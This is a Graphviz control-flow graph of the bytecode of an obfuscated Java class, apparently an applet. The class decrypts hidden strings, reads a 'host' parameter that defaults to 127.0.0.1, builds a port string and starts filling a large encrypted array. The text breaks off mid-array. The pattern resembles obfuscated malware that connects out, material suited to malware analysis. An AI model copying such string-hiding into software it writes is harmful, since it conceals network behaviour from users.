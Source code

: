 digraph "" {
    "r0 := @this: aefe"
    "push 7"
    "r0 := @this: aefe"->"push 7";
    "newarray"
    "push 7"->"newarray";
    "store.r $r5"
    "newarray"->"store.r $r5";
    "load.r $r5"
    "store.r $r5"->"load.r $r5";
    "push 0"
    "load.r $r5"->"push 0";
    "push 68"
    "push 0"->"push 68";
    "arraywrite.i"
    "push 68"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 1"
    "load.r $r5"->"push 1";
    "push 66"
    "push 1"->"push 66";
    "push 66"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 2"
    "load.r $r5"->"push 2";
    "push 78"
    "push 2"->"push 78";
    "push 78"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 3"
    "load.r $r5"->"push 3";
    "push 70"
    "push 3"->"push 70";
    "push 70"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 4"
    "load.r $r5"->"push 4";
    "push 124"
    "push 4"->"push 124";
    "push 124"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 5"
    "load.r $r5"->"push 5";
    "push 74"
    "push 5"->"push 74";
    "push 74"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 6"
    "load.r $r5"->"push 6";
    "push 71"
    "push 6"->"push 71";
    "push 71"->"arraywrite.i";
    "load.r r0"
    "arraywrite.i"->"load.r r0";
    "load.r r0"->"load.r $r5";
    "staticinvoke <aefe: java.lang.String decrypt(int[])>"
    "load.r $r5"->"staticinvoke <aefe: java.lang.String decrypt(int[])>";
    "virtualinvoke <aefe: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <aefe: java.lang.String decrypt(int[])>"->"virtualinvoke <aefe: java.lang.String getParameter(java.lang.String)>";
    "staticput <aefe: java.lang.String host>"
    "virtualinvoke <aefe: java.lang.String getParameter(java.lang.String)>"->"staticput <aefe: java.lang.String host>";
    "new java.lang.StringBuilder"
    "staticput <aefe: java.lang.String host>"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"8\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"8\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8\"";
    "push \"8\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticput <aefe: java.lang.String s_port>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticput <aefe: java.lang.String s_port>";
    "staticget <aefe: java.lang.String host>"
    "staticput <aefe: java.lang.String s_port>"->"staticget <aefe: java.lang.String host>";
    "ifnonnull push null"
    "staticget <aefe: java.lang.String host>"->"ifnonnull push null";
    "push \"127.0.0.1\""
    "ifnonnull push null"->"push \"127.0.0.1\"";
    "push \"127.0.0.1\""->"staticput <aefe: java.lang.String host>";
    "push null"
    "staticput <aefe: java.lang.String host>"->"push null";
    "store.r r0"
    "push null"->"store.r r0";
    "push 290"
    "store.r r0"->"push 290";
    "push 290"->"newarray";
    "newarray"->"store.r $r5";
    "store.r $r5"->"load.r $r5";
    "load.r $r5"->"push 0";
    "push 98"
    "push 0"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 1";
    "push 96"
    "push 1"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 2";
    "push 102"
    "push 2"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 3";
    "push 103"
    "push 3"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 4";
    "push 19"
    "push 4"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 5";
    "push 5"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 6";
    "push 6"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 7";
    "push 22"
    "push 7"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 8"
    "load.r $r5"->"push 8";
    "push 20"
    "push 8"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 9"
    "load.r $r5"->"push 9";
    "push 16"
    "push 9"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 10"
    "load.r $r5"->"push 10";
    "push 10"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 11"
    "load.r $r5"->"push 11";
    "push 17"
    "push 11"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 12"
    "load.r $r5"->"push 12";
    "push 12"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 13"
    "load.r $r5"->"push 13";
    "push 13"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 14"
    "load.r $r5"->"push 14";
    "push 18"
    "push 14"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 15"
    "load.r $r5"->"push 15";
    "push 26"
    "push 15"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 16";
    "push 21"
    "push 16"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 17";
    "push 17"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 18";
    "push 18"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 19";
    "push 19"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 20";
    "push 20"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 21";
    "push 21"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 22";
    "push 22"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 23"
    "load.r $r5"->"push 23";
    "push 23"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 24"
    "load.r $r5"->"push 24";
    "push 24"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 25"
    "load.r $r5"->"push 25";
    "push 25"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 26";
    "push 26"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 27"
    "load.r $r5"->"push 27";
    "push 27"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 28"
    "load.r $r5"->"push 28";
    "push 28"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 29"
    "load.r $r5"->"push 29";
    "push 29"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 30"
    "load.r $r5"->"push 30";
    "push 30"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 31"
    "load.r $r5"->"push 31";
    "push 31"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 32"
    "load.r $r5"->"push 32";
    "push 32"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 33"
    "load.r $r5"->"push 33";
    "push 33"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 34"
    "load.r $r5"->"push 34";
    "push 34"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 35"
    "load.r $r5"->"push 35";
    "push 35"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 36"
    "load.r $r5"->"push 36";
    "push 36"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 37"
    "load.r $r5"->"push 37";
    "push 37"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 38"
    "load.r $r5"->"push 38";
    "push 38"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 39"
    "load.r $r5"->"push 39";
    "push 39"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 40"
    "load.r $r5"->"push 40";
    "push 40"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 41"
    "load.r $r5"->"push 41";
    "push 41"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 42"
    "load.r $r5"->"push 42";
    "push 42"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 43"
    "load.r $r5"->"push 43";
    "push 43"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 44"
    "load.r $r5"->"push 44";
    "push 44"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 45"
    "load.r $r5"->"push 45";
    "push 45"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 46"
    "load.r $r5"->"push 46";
    "push 46"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 47"
    "load.r $r5"->"push 47";
    "push 47"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 48"
    "load.r $r5"->"push 48";
    "push 48"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 49"
    "load.r $r5"->"push 49";
    "push 49"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 50"
    "load.r $r5"->"push 50";
    "push 50"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 51"
    "load.r $r5"->"push 51";
    "push 51"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 52"
    "load.r $r5"->"push 52";
    "push 52"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 53"
    "load.r $r5"->"push 53";
    "push 53"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 54"
    "load.r $r5"->"push 54";
    "push 54"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 55"
    "load.r $r5"->"push 55";
    "push 101"
    "push 55"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 56"
    "load.r $r5"->"push 56";
    "push 56"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 57"
    "load.r $r5"->"push 57";
    "push 57"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 58"
    "load.r $r5"->"push 58";
    "push 58"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 59"
    "load.r $r5"->"push 59";
    "push 59"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 60"
    "load.r $r5"->"push 60";
    "push 60"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 61"
    "load.r $r5"->"push 61";
    "push 61"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 62"
    "load.r $r5"->"push 62";
    "push 62"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 63"
    "load.r $r5"->"push 63";
    "push 63"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 64"
    "load.r $r5"->"push 64";
    "push 64"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 65"
    "load.r $r5"->"push 65";
    "push 65"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 66";
    "push 66"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 67"
    "load.r $r5"->"push 67";
    "push 67"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 68";
    "push 97"
    "push 68"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 69"
    "load.r $r5"->"push 69";
    "push 69"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 70";
    "push 70"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 71";
    "push 71"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 72"
    "load.r $r5"->"push 72";
    "push 72"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 73"
    "load.r $r5"->"push 73";
    "push 73"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 74";
    "push 74"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 75"
    "load.r $r5"->"push 75";
    "push 75"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 76"
    "load.r $r5"->"push 76";
    "push 76"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 77"
    "load.r $r5"->"push 77";
    "push 77"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 78";
    "push 78"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 79"
    "load.r $r5"->"push 79";
    "push 79"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 80"
    "load.r $r5"->"push 80";
    "push 80"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 81"
    "load.r $r5"->"push 81";
    "push 81"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 82"
    "load.r $r5"->"push 82";
    "push 82"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 83"
    "load.r $r5"->"push 83";
    "push 83"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 84"
    "load.r $r5"->"push 84";
    "push 84"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 85"
    "load.r $r5"->"push 85";
    "push 85"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 86"
    "load.r $r5"->"push 86";
    "push 86"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 87"
    "load.r $r5"->"push 87";
    "push 87"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 88"
    "load.r $r5"->"push 88";
    "push 88"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 89"
    "load.r $r5"->"push 89";
    "push 89"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 90"
    "load.r $r5"->"push 90";
    "push 90"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 91"
    "load.r $r5"->"push 91";
    "push 91"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 92"
    "load.r $r5"->"push 92";
    "push 92"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 93"
    "load.r $r5"->"push 93";
    "push 93"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 94"
    "load.r $r5"->"push 94";
    "push 94"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 95"
    "load.r $r5"->"push 95";
    "push 95"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 96";
    "push 96"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 97";
    "push 97"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 98";
    "push 98"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 99"
    "load.r $r5"->"push 99";
    "push 99"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 100"
    "load.r $r5"->"push 100";
    "push 100"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 101";
    "push 101"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 102";
    "push 102"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 103";
    "push 103"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 104"
    "load.r $r5"->"push 104";
    "push 104"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 105"
    "load.r $r5"->"push 105";
    "push 105"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 106"
    "load.r $r5"->"push 106";
    "push 106"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 107"
    "load.r $r5"->"push 107";
    "push 107"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 108"
    "load.r $r5"->"push 108";
    "push 108"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 109"
    "load.r $r5"->"push 109";
    "push 109"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 110"
    "load.r $r5"->"push 110";
    "push 110"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 111"
    "load.r $r5"->"push 111";
    "push 111"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 112"
    "load.r $r5"->"push 112";
    "push 112"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 113"
    "load.r $r5"->"push 113";
    "push 113"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 114"
    "load.r $r5"->"push 114";
    "push 114"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 115"
    "load.r $r5"->"push 115";
    "push 115"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 116"
    "load.r $r5"->"push 116";
    "push 116"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 117"
    "load.r $r5"->"push 117";
    "push 117"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 118"
    "load.r $r5"->"push 118";
    "push 118"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 119"
    "load.r $r5"->"push 119";
    "push 119"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 120"
    "load.r $r5"->"push 120";
    "push 120"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 121"
    "load.r $r5"->"push 121";
    "push 121"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 122"
    "load.r $r5"->"push 122";
    "push 122"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 123"
    "load.r $r5"->"push 123";
    "push 123"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "load.r $r5"->"push 124";
    "push 124"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 125"
    "load.r $r5"->"push 125";
    "push 125"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 126"
    "load.r $r5"->"push 126";
    "push 126"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 127"
    "load.r $r5"->"push 127";
    "push 127"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 128"
    "load.r $r5"->"push 128";
    "push 128"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 129"
    "load.r $r5"->"push 129";
    "push 129"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 130"
    "load.r $r5"->"push 130";
    "push 130"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 131"
    "load.r $r5"->"push 131";
    "push 131"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 132"
    "load.r $r5"->"push 132";
    "push 132"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 133"
    "load.r $r5"->"push 133";
    "push 133"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 134"
    "load.r $r5"->"push 134";
    "push 134"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 135"
    "load.r $r5"->"push 135";
    "push 135"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 136"
    "load.r $r5"->"push 136";
    "push 136"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 137"
    "load.r $r5"->"push 137";
    "push 137"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 138"
    "load.r $r5"->"push 138";
    "push 138"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 139"
    "load.r $r5"->"push 139";
    "push 139"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 140"
    "load.r $r5"->"push 140";
    "push 140"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 141"
    "load.r $r5"->"push 141";
    "push 141"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 142"
    "load.r $r5"->"push 142";
    "push 142"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 143"
    "load.r $r5"->"push 143";
    "push 143"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 144"
    "load.r $r5"->"push 144";
    "push 144"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 145"
    "load.r $r5"->"push 145";
    "push 145"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 146"
    "load.r $r5"->"push 146";
    "push 146"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 147"
    "load.r $r5"->"push 147";
    "push 147"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 148"
    "load.r $r5"->"push 148";
    "push 148"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 149"
    "load.r $r5"->"push 149";
    "push 149"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 150"
    "load.r $r5"->"push 150";
    "push 150"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 151"
    "load.r $r5"->"push 151";
    "push 151"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 152"
    "load.r $r5"->"push 152";
    "push 152"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 153"
    "load.r $r5"->"push 153";
    "push 153"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 154"
    "load.r $r5"->"push 154";
    "push 154"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 155"
    "load.r $r5"->"push 155";
    "push 155"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 156"
    "load.r $r5"->"push 156";
    "push 156"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 157"
    "load.r $r5"->"push 157";
    "push 157"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 158"
    "load.r $r5"->"push 158";
    "push 158"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 159"
    "load.r $r5"->"push 159";
    "push 159"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 160"
    "load.r $r5"->"push 160";
    "push 160"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 161"
    "load.r $r5"->"push 161";
    "push 161"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 162"
    "load.r $r5"->"push 162";
    "push 162"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 163"
    "load.r $r5"->"push 163";
    "push 163"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 164"
    "load.r $r5"->"push 164";
    "push 164"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 165"
    "load.r $r5"->"push 165";
    "push 165"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 166"
    "load.r $r5"->"push 166";
    "push 166"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 167"
    "load.r $r5"->"push 167";
    "push 167"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 168"
    "load.r $r5"->"push 168";
    "push 168"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 169"
    "load.r $r5"->"push 169";
    "push 169"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 170"
    "load.r $r5"->"push 170";
    "push 170"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 171"
    "load.r $r5"->"push 171";
    "push 171"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 172"
